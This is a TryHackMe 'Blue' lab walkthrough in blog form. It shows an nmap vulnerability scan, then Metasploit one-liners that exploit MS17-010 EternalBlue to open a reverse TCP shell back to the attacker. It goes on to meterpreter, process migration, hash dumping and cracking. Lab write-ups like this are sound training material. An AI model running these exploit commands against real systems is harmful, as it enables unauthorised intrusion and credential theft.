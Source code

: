 ```yaml
---
title: 'TryHackMe - Blue'
description: "Vulnerability scanning using nmap, exploitation using metasploit. Examples of creating a reverse TCP shell, upgrading the shell, process migration, hash cracking, and search to find flags."
author: 'Tim Sonner'
date: '2023-06-29'
published: true
---
```


# THM Eternal Blue  

## Recon  

 ### // Set a terminal environmental variable for target IP address  

```
export IP=<target-ip-address> 
```

 ### // Run nmap vulnerability scan   

```  
nmap -sV -vv --script=vuln $IP  
```  

 ### // Example  

![](/thm-blue/thm-blue-nmap-command.png)    

 ### // Results  

![](/thm-blue/thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)  

https://www.exploit-db.com/exploits/41891  

## Exploit  

 ### // Run msfconsole and perform reverse tcp shell exploit   
```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  
```  

> We set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally)  

 ### // Metasploit go brrrr...  

 ![](/thm-blue/thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is running  

  // Results  

  ![](/thm-blue/thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, now we have a basic shell  

 ### // Backgrounding the shell example    

```  
background  
```  
  
> Ctrl-z does the same thing  

 ![](/thm-blue/thm-blue-background-example.png)

 ## Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell  

 ### // Search for the command   
```
search upgrade shell   
```  

 ![](/thm-blue/thm-blue-search-upgrade-shell-1.png)  

 ### // Select the script for use  

```  
use shell_to_meterpreter  
```
> Alternative: "use 4" (4th result in searches)

 ![](/thm-blue/thm-blue-run-upgrade-shell.png)  

 ### // Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell  

 ![](/thm-blue/thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

 ### // Run the script  

 > The script ran, but we don't have an upgraded shell...

 ### // Hmmm. Thats not working...  
 
 For some reason, the script isn't upgrading our shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

 ### // Let's try again  

```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set RHOSTS $IP;set LHOST tun0;run"  
```  
 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default.  

 ![](/thm-blue/thm-blue-meterpreter-default.png)  

 ### Session has started with default meterpreter shell  

 ![](/thm-blue/thm-blue-meterpreter-session-started.png)

 ### List the current processes running on the target  

 ![](/thm-blue/thm-blue-meterpreter-ps.png)  

 ### Get process ID of current meterpreter shell

 ![](/thm-blue/thm-blue-meterpreter-getpid.png)  

 ### Migrate to another process  

 ![](/thm-blue/thm-blue-meterpreter-migrate.png)  

 ### Dump the hashes  

 ![](/thm-blue/thm-blue-meterpreter-hashdump.png)  

 ### Quick and dirty hash crack using Crackstation  

 ![](/thm-blue/thm-blue-crackstation.png)  

 ### Quick and dirty find flags  

 ![](/thm-blue/thm-blue-find-flags.png)  












